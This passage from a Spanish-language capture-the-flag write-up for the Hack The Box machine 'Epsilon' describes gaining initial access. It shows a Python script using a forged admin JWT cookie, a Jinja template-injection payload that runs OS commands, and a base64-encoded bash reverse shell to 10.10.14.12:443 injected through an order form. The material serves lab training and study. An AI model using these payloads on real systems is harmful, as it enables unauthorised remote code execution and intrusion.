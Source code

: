 ---------------------------------
## Parte 4: Accediendo al sistema

Para maniobrar mas cómodamente me hago un script: 

```python
import requests

sess = requests.session()
main_url = "http://epsilon.htb:5000/order"
cookies = {'auth':'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.8JUBz8oy5DlaoSmr0ffLb_hrdSHl0iLMGz-Ece7VNtg'}

data = {'costume':'glasses','q':'test','addr':'test'}
req = sess.post(main_url, cookies=cookies, data=data)
print(req.text)
```
```console
*** Select your costume and place an order ***
We've limited stock right now!

                  [One of: Retro Sun Glasses/Time Traveller Goggles Top Hat/
Select a Costume: Kinetic Kitten Mask/Phantom Mask/Phantom Mask/Phantom Mask/
                  Phantom Mask]
Enter Quantity:   [q                   ]
Enter Address:
[Order]
Your order of "glasses" has been placed successfully.
```

Como es python y refleja el resultado, podriamos probar un STTI: ```data = {'costume':'{{7*7}}','q':'1','addr':'{{7*7}}'}```  
Si pongo ```{{url_for.__globals__.os.popen('whoami').read()}}``` el resultado es: ```Your order of "tom " has been placed successfully.```  

```console
└─$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1'" | base64 -w0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDMgMD4mMScK
```
```python
comando = "echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDMgMD4mMScK | base64 -d | bash"
stti = "{{url_for.__globals__.os.popen('" + comando + "').read()}}"
data = {'costume': stti,'q':'1','addr':'{{7*7}}'}
```

Y tenemos acceso al sistema, encima scripteado por lo que es muy comodo. Encima subo mi script de enumeración:  
- MI usuario "Tom", el otro root, nadie mas  
- No hay capabilities pero si un sudo SUID (luego vemos si es una versión vulnerable)  
- Este tal Tom es el propietario de todo el codigo fuente de la app. Ruta **/var/www/app/**  
- Hay un backup que parece interesante en -> /var/backups/web_backups  
- Parece que hay un conteneder en la ip 172.19.0.2 conectado por el puerto 4566 (esta máquina es 172.19.0.2)  
